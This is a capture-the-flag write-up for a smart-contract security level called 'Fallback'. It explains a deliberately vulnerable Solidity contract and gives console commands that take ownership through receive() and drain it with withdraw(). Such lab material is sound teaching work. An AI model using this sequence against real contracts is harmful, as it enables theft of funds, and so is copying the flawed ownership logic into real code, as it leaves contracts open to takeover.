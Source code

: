 # Fallback

In this level, we will need to analyse carefully a smart contract and then find a way to hack it.

We will beat this level if we:

1. Claim ownership of the contract.
2. Reduce its balance to 0.

## Contract's Code Breakdown

[The Smart Contract's Code can be seen here.](Fallback.sol)

```solidity
mapping(address => uint) public contributions;
address public owner;
```

This smart contract has 2 public variables:

- contributions: a mapping to store each contributor's address and the amount contributed.
- owner: variable to store the address of the owner.

```solidity
constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
```

The constructor here simply sets the owner to the deployer's adress and sets its contribution to 1000 ethers.

```solidity
 modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
```

the onlyOwner modifier checks if the caller is indeed the owner, if not the transaction will revert with the message "caller is not the owner".

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
This is the function to call if we want to make a contributions, this method only accepts contributions of 0.001 ethers and lower, if the caller has more contributions than the owner ( the initial 1000 ethers ) ownership will be transferred to the caller.
**We can see here that if we want to take ownership that way it will require us to send more than 1000 ethers to the contract in more than a million transactions.**

```solidity
function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }
```

This method simply returns the amount contributed by the caller.

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

This method transfers all contract's balance to the owner, it has the onlyOwner modifier which means it is only called by the owner.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

`receive()` is a special function in solidity, it is executed on contract call with empty calldata or plain ether transfers (via `.send()` or `.transfer()`).
It was added after the 0.6 version to separate between the 2 former uses of the `fallback` function :
* receiving ether and no data.
* receiving data and the function called is not found.

Now receive serves the first purpose.It has no **"function"** keyword like other functions, it cannot have arguments and cannot return anything and must have external visibility and payable state mutability.

Now when reading the receive function, we notice that we can get ownership of the contract just by invoking receive() (sending some plain ether) and having contributed before.

Let's start contributing by sending any value less than 0.001 ether (10<sup>^15</sup> wei):

```javascript
>  await contract.contribute({value: 100}) // calling contribute function with a value of 100 wei
```
After confirming the transaction and waiting for it to be mined let's make sure if we did contribute or no by calling the getContribution():
```javascript
>  (await contract.getContribution()).toString()
<· "100"
```
Now let's invoke the receive function by sending some plain ether with **[web3.eth.sendTransaction()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#sendtransaction)** :

```javascript
>  await contract.sendTransaction({value: 100})
```

Now we should be the owner of the smart contract, let's call withdraw() and thus reducing the contract's balance to 0 then submit the instance:

```javascript
>  await contract.withdraw()
```

***Congratulations, You now know the basics of how ether goes in and out of contracts, including the usage of the fallback method.***